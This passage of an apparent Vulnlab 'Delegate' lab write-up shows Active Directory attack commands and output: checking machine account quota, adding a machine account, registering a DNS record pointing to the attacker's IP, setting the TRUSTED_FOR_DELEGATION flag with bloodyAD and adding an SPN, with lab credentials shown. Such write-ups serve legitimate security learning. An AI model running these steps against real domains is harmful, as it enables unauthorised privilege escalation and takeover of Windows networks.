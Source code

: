     ➜  delegate nxc ldap DC1 -u 'N.Thompson' -p ':K<redacted>41' -M maq
    SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
    LDAP        10.10.85.108    389    DC1              [+] delegate.vl\N.Thompson:KALEB_2341 
    MAQ         10.10.85.108    389    DC1              [*] Getting the MachineAccountQuota
    MAQ         10.10.85.108    389    DC1              MachineAccountQuota: 10
    ➜  delegate 

and yes i added

    ➜  delegate python3 /opt/impacket/examples/addcomputer.py -computer-name 'irem$' -computer-pass Password321! -dc-ip 10.10.85.108 'delegate.vl/N.Thompson:KALEB_2341'     
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Successfully added machine account irem$ with password Password321!.

lets add DNS record macchine which we create as we did at [Incercept](https://lineeralgebra.github.io/posts/Vulnlab-Intercept/)

    ➜  krbrelayx git:(master) python3 dnstool.py -u 'delegate.vl\irem$' -p 'Password321!' -r irem.delegate.vl -d 10.8.2.152 --action add DC1.delegate.vl -dns-ip 10.10.85.108
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [-] Adding new record
    [+] LDAP operation completed successfully
if we wanan do Constrained Delegation we have to add UAC. we can do with bloodyAD

    ➜  delegate bloodyAD -u 'N.Thompson' -p 'KALEB_2341' -d delegate.vl  --host 'DC1.delegate.vl' add uac 'irem$'  -f TRUSTED_FOR_DELEGATION
    [-] ['TRUSTED_FOR_DELEGATION'] property flags added to irem$'s userAccountControl

and booom!!!

    ➜  krbrelayx git:(master) python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/irem.delegate.vl' -t 'irem$' -dc-ip 10.10.85.108 DC1.delegate.vl            
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [+] Found modification target
    [+] SPN Modified successfully
    ➜  krbrelayx git:(master) python3 addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -q -t 'irem$' -dc-ip 10.10.85.108 DC1.delegate.vl 
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [+] Found modification target
    DN: CN=irem,CN=Computers,DC=delegate,DC=vl - STATUS: Read - READ TIME: 2025-03-06T08:23:51.506280
        msDS-AdditionalDnsHostName: irem.delegate.vl
        sAMAccountName: irem$
        servicePrincipalName: cifs/irem.delegate.vl

    ➜  krbrelayx git:(master) 
